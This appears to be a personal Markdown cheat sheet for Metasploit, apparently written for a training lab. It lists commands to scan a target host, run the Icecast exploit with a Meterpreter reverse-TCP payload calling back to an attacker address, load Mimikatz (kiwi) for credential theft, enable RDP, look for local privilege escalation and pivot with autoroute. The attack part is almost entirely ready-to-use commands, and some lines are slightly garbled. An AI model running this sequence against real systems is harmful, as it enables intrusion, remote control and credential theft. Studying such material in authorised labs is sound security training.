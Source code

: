 # Metasploit

## Config

Start PostgreSQL und Metasploit on boot

 ```sh
update-rc.d postgresql enable
update-rc.d metasploit enable
```

Manuall start

 ```sh
service postgresql start
service metasploit start
```

## Start msfconsole

Init Metaspoit and start the console

```sh
msfdb init
msfconsole -h
msfconsole
db_status
```

Add Target

```sh
db_nmap -sV 10.10.201.217
```

Scan Target

```sh
hosts
services
vulns
```

## Use Exploit

This is an example using an exploit with Metasploit:

```sh
search multi/handler
use # exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.193.173
set RHOSTS 10.10.201.217
use icecast
run -j
sessions
sessions -i 1
```

Check Machine

```sh
getprivs
sysinfo
getuid
```

Start Mimikatz

```sh
load kiwi
```

Try different exploits

```sh
run post/windows/gather/checkvm
run post/multi/recon/local_exploit_suggester
run post/windows/manage/enable_rdp
```

```sh
run autoroute -s 10.10.201.217 -n 255.255.255.0
```
